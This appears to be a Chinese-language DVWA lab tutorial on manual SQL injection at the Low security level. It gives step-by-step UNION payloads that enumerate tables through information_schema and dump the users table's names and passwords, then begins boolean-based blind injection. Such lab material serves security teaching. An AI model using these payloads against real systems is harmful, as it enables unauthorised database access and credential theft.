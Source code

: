 > 漏洞利用

Low级别的代码对来自客户端的参数id没有进行任何的检查与过滤，存在明显的SQL注入。
现实攻击场景下，攻击者是无法看到后端代码的，所以下面的手工注入步骤是建立在无法看到源码的基础上。

1.判断是否存在注入，注入是字符型还是数字型
输入1
输入1’and ‘1’ =’2
输入1’or ‘1234 ’=’1234
返回多个结果，说明存在字符型注入。

2.猜解SQL查询语句中的字段数
输入1′ or 1=1 order by 1 #
输入1′ or 1=1 order by 2 #
     ..........
（这里也可以通过输入union select 1,2,3…来猜解字段数）

3.确定显示的字段顺序
输入1′ union select 1,2 #     ，查询成功：说明执行的SQL语句为select First name,Surname from 表 where ID=’id’…

4.获取当前数据库
输入1′ union select 1,database() #

5.获取数据库中的表
输入1′ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #

6.获取表中的字段名
输入1′ union select 1,group_concat(column_name) from information_schema.columns where table_name=’users’ #

7.下载数据
输入1′ or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #

这样就得到了users表中所有用户的user_id,first_name,last_name,password的数据。

###SQL Injection（Blind）（SQL盲注）
SQL Injection（Blind），即SQL盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是SQL盲注。

> 手工盲注思路

盲注分为基于布尔的盲注、基于时间的盲注以及基于报错的盲注

> 手工盲注的步骤（可与之前的手工注入作比较）：

1.判断是否存在注入，注入是字符型还是数字型
2.猜解当前数据库名
3.猜解数据库中的表名
4.猜解表中的字段名
5.猜解数据

Low级别的代码对参数id没有做任何检查、过滤，存在明显的SQL注入漏洞，同时SQL语句查询返回的结果只有两种

> 基于布尔的盲注：

1.判断是否存在注入，注入是字符型还是数字型
输入1，显示相应用户存在
输入1’ and 1=1 #，显示存在
输入1’ and 1=2 #，显示不存在
说明存在字符型的SQL盲注。
